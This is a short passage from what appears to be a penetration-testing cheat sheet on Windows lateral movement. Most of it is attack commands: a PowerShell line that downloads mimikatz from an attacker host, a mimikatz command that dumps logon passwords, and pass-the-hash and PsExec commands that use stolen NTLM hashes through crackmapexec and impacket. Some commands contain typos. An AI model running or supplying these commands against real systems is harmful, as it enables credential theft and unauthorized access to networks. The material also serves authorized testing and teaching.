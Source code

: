 ## Lateral Movement

### Mimikatz

Get information using mimikatz (High privilege required)

```powershell
iwr http://$ATT_IP :PORT/mimikatz.exe -OutFile C:\Users\...\mimi.exe
```

```powershell
.\mimi.exe 

> sekurlsa::logonpasswords
```

If we found some NTLM we can perform pass-the-hash attack

```bash
proxychains crackmapexec smb $IP -u $USER -H $LM 
```

When we found a machine Pwnd we can perform lateral movement with PsExec

```bash
proxuchains impacket-psexec 'DOMAIN/$USER@$IP' -hashes :$LM
```



